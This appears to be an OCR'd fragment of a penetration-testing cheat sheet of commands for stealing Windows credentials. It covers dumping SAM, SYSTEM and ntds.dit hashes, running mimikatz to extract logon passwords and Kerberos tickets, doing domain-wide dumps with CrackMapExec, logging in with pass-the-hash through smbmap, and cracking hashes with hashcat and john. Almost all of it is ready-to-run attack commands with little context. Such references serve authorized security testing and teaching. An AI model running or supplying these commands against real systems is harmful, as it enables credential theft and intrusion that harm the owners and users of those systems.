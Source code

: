 queryuser 500        #find Admin users

lookupnames username/groupname    #Find the SID of a user/group

Gaining Hashes from SAM/System

reg save HKLM\SAM C:\sam
reg save HKLM\SYSTEM C:\system
powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"

impacket-secretsdump -sam SAM -system SYSTEM local
secretsdump.py -ntds ntds.dit -system SYSTEM LOCAL


Note: if the hash starts with 31d6, the password is either blank or the account is disabled. 

decrypt the hash from http://hashes.org/search.php

Login with the HASH:

smbmap -u USER_NAME -p WHAT_EVER:THE_HASH_IS -H IP_ADDRESS

pwdump SYSTEM SAM > sam.txt
samdump2 SYSTEM SAM -o sam.txt
john -format=NT sam.txt

Dumping Hashes using CME
Download CME from here

#Dump SAM Hashes 
cme smb 10.10.10.10/24 -u Username -p Password --sam

# Dump LSA
cme smb  10.10.10.10/24 -u Username -p Password  --lsa

#Dump ntds.dit from DC 
cme smb  10.10.10.10/24 -u Username -p Password --ntds

Dumping Credentials using mimikatz
mimikatz.exe 

privilege::debug          /You should see 200 OK

sekurlsa::logonpasswords     /dump creds and other info

lsadump::sam                 /Dump creds stored in LSa

sekurlsa::tickets            /view available tickets

sekurlsa::tickets /export    /Download all the tickets

or 

#Dumping Creds using Mimikatz Powershell
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "exit"'

#collect the NTLM hashes and it can be cracked using john/hashcat or crackstation
hashcat -m 1000 -a 3 hashes.txt rockyou.txt
john --format=LM hashes.txt --wordlist=rockyou.txt
